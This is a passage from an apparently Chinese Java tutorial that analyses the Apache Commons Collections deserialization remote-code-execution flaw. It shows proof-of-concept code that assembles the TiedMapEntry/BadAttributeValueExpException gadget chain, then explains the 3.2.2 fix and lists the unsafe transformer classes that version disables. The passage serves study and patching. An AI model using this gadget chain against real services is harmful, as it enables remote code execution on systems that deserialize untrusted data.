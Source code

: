 通过阅读源码，我们发现，只要给BadAttributeValueExpException类中的成员变量val设置成一个TiedMapEntry类型的对象就行了。

这就简单了，通过反射就能实现：

```markup
Transformer transformerChain = new ChainedTransformer(transformers);

Map innerMap = new HashMap();
Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
TiedMapEntry entry = new TiedMapEntry(lazyMap, "key");

BadAttributeValueExpException poc = new BadAttributeValueExpException(null);

// val是私有变量，所以利用下面方法进行赋值
Field valfield = poc.getClass().getDeclaredField("val");
valfield.setAccessible(true);
valfield.set(poc, entry);复制ErrorOK!
```

于是，这时候，攻击就非常简单了，只需要把BadAttributeValueExpException对象序列化成字符串，只要这个字符串内容被反序列化，那么就会被攻击。

![img](https://www.hollischuang.com/wp-content/uploads/2020/07/15944537014741.jpg)

### [问题解决](https://hollischuang.github.io/toBeTopJavaer/#/basics/java-basic/bug-in-apache-commons-collections?id=问题解决)

以上，我们复现了这个Apache Commons Collections类库带来的一个和反序列化有关的远程代码执行漏洞。

通过这个漏洞的分析，我们可以发现，只要有一个地方代码写的不够严谨，就可能会被攻击者利用。

因为这个漏洞影响范围很大，所以在被爆出来之后就被修复掉了，开发者只需要将Apache Commons Collections类库升级到3.2.2版本，即可避免这个漏洞。

![-w1382](https://www.hollischuang.com/wp-content/uploads/2020/07/15944526874284.jpg)

3.2.2版本对一些不安全的Java类的序列化支持增加了开关，默认为关闭状态。涉及的类包括

```markup
CloneTransformer
ForClosure
InstantiateFactory
InstantiateTransformer
InvokerTransformer
PrototypeCloneFactory
PrototypeSerializationFactory,
WhileClosure复制ErrorOK!
```

如在InvokerTransformer类中，自己实现了和序列化有关的writeObject()和 readObject()方法：

![img](https://www.hollischuang.com/wp-content/uploads/2020/07/15944525715616.jpg)

在两个方法中，进行了序列化安全的相关校验，校验实现代码如下：

![img](https://www.hollischuang.com/wp-content/uploads/2020/07/15944525999226.jpg)

在序列化及反序列化过程中，会检查对于一些不安全类的序列化支持是否是被禁用的，如果是禁用的，那么就会抛出`UnsupportedOperationException`，通过`org.apache.commons.collections.enableUnsafeSerialization`设置这个特性的开关。

